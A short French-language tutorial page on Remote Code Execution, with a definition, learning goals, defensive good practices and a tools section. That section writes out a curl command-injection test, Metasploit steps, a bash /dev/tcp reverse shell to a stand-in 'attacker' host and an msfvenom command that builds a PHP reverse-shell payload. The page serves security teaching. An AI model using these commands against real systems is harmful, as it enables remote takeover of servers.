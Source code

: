 ```yaml
---
title: Remote Code Execution
date: "2025-07-15"
draft: false
---
```


# 💻 Remote Code Execution (RCE)

## Qu'est-ce que la Remote Code Execution ?

La Remote Code Execution (RCE) permet d'exécuter du code arbitraire à distance sur un serveur ou une machine cible, souvent via une faille logicielle.

## 🎯 Objectifs pédagogiques

- Comprendre le concept de RCE
- Savoir identifier et exploiter une faille RCE

## 📋 Exemples de scénarios et commandes

- Exploiter une injection de commande pour obtenir un shell
- Utiliser un payload pour exécuter du code à distance
- Prendre le contrôle d'un serveur via une faille RCE

## 🛡️ Bonnes pratiques

- Mettre à jour régulièrement les logiciels
- Restreindre les droits d'exécution
- Surveiller les logs d'exécution de commandes

## 📚 Ressources utiles

- [OWASP - RCE](https://owasp.org/www-community/attacks/Remote_Code_Execution)
- [HackTricks - RCE](https://book.hacktricks.xyz/pentesting-web/rce)

## 🛠️ Outils et commandes les plus utilisés

- **curl** : Tester l'injection de commandes
  ```bash
  curl -X POST -d 'cmd=whoami' http://site-vulnerable/exec.php
  ```
- **Burp Suite** : Automatiser et manipuler les requêtes
- **Metasploit** : Exploiter automatiquement des failles RCE
  ```bash
  msfconsole
  use exploit/multi/http/php_cgi_arg_injection
  set RHOSTS site-vulnerable
  run
  ```
- **ncat / socat** : Reverse shell
  ```bash
  ncat -lvnp 4444
  bash -i >& /dev/tcp/attacker/4444 0>&1
  ```
- **msfvenom** : Générer des payloads personnalisés
  ```bash
  msfvenom -p php/reverse_php LHOST=attacker LPORT=4444 -f raw > shell.php
  ```

---

_Dernière mise à jour : 15 juillet 2025_
